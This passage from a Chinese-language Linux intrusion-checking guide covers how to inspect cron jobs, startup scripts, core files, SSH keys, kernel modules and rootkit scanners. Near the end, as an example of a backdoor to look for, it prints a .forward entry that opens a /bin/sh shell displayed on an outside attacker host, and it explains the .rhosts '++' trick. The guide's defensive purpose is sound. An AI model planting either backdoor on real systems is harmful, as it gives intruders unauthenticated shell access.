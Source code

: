 ifconfig -a 查看网卡设置

通过端口号查询监听的进程，-i4 表示ipv4   
`lsof -Pnl +M -i4 | grep 2222`  
   

  
## 检查计划任务
  
当我们尝试kill恶意程序时，往往会遇到被kill程序自动启动的问题，那么就要检查下计划任务(cron)了。  
  
/var/spool/cron/username 是用户 username 定义的任务所在的文件，有些黑客喜欢用bin 用户。  

a) 通过crontabl –l 查看当前的任务计划有哪些，是否有后门木马程序启动相关信息；    

b) 查看etc目录任务计划相关文件，ls /etc/cron*    

查看linux 开机启动程序    

a) 查看rc.local文件（/etc/init.d/rc.local /etc/rc.local）    

b) ls –alt /etc/init.d/    

c) chkconfig    
  
## 检查系统中的core文件

通过发送畸形请求来攻击服务器的某一服务来入侵系统是一种常规的入侵方法，典型的RPC攻击就是通过这种方式。这种方式有一定的成功率，也就是说它并不能100%保证成功入侵系统，而且通常会在服务器相应目录下产生core文件，全局查找系统中的core文件，输入find / -name core –exec ls –l {} \; 依据core所在的目录、查询core文件来判断是否有入侵行为。
  
## 检查系统后门
  
可以使用工具，如：clamAV（病毒库比较难下）、lynis（基础安全检查非常不错）、Conmodo、rkhunter、chkrootkit 等，  
当然也可以手工输入命令检查。
  

  
vim $HOME/.ssh/authorized_keys 查看ssh永久链接文件
  
lsmod 检查内核模块
  
chkconfig –list/systemctl list-units –type=service 检查自启
  

  
查看著名的木门后门程序：
  

  
ls /etc/rc.d
  
ls /etc/rc3.d
  
find / -name ".rhosts" –print
  
find / -name ".forward" –print

在某用户的$HOME下，.rhosts文件中仅包含两个+号是非常危险的，如果你的系统上开了513端口（rlogin端口，和telnet作用相同），那么任意是谁都可以用这个用户登录到你的系统上而不需要任何验证。  

Unix下在.forward文件里放入命令是重新获得访问的常用方法，在某一 用户$HOME下的.forward可能设置如下:  
`\username|"/usr/local/X11/bin/xterm -disp hacksys.other.dom:0.0 –e /bin/sh"`  
